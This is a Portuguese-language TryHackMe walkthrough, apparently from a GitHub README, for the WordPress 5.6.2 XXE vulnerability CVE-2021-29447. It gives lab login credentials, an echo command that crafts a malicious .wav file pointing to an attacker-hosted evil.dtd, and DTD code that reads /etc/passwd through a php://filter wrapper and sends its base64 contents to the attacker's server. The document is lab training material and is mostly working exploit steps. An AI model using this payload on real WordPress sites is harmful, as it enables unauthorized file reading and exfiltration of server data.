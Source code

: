 Identificado que a versão usada do wordpress é 5.6.2.

O login e senha foram informados na Task anterior.
`login = tes-corp`
`password = test`

Após uma leitura breve do CVE é identificado a vunerabilidade, onde envolve o upload de um arquivo de mídia com a extensão *.wav*.

Avaliando o payload é notado a necessidade de um arquivo *.dtd* -> *Document Type Definition* -- Dando poder para o atacante controlar melhor a carga útil do payload. Possibilitando a listagem de elementos valdiados, sendo declato dentro do próprio arquivo XML ou com uma referência externa.

1º Digite o comando - `echo -en 'RIFF\xb8\x00\x00\x00WAVEiXML\x7b\x00\x00\x00<?xml version="1.0"?><!DOCTYPE ANY[<!ENTITY % remote SYSTEM '"'"'http://YOURSEVERIP:PORT/evil.dtd'"'"'>%remote;%init;%trick;]>\x00' > malicius.wav`  -> Percebe-se que o documento XML contém a necessidade de um arquivo .dtd

Comando irá criar um arquivo chamado *malicius.wav*

Verifique se o que foi gerado é um arquivo de áudio. use o comando *file* para confirmar.

<img src = "https://github.com/patrickpca/TryHackMe/blob/master/Wordpress-%20CVE-2021-29447/img/img5.PNG" width="50%">

2° Digite o comando `nano evil.dtd`


3° Insira o seguinte código no arquivo:
<!ENTITY % file SYSTEM “php://filter/zlib.deflate/read=convert.base64-encode/resource=/etc/passwd”>
<!ENTITY % init “<!ENTITY &#x25; trick SYSTEM ‘http://YOURSERVERIP:PORT/?p=%file;'>" >


<img src="https://github.com/patrickpca/TryHackMe/blob/master/Wordpress-%20CVE-2021-29447/img/img6.PNG" width="80%">

4º Insira o arquivo *payload.wav* no wordpress.
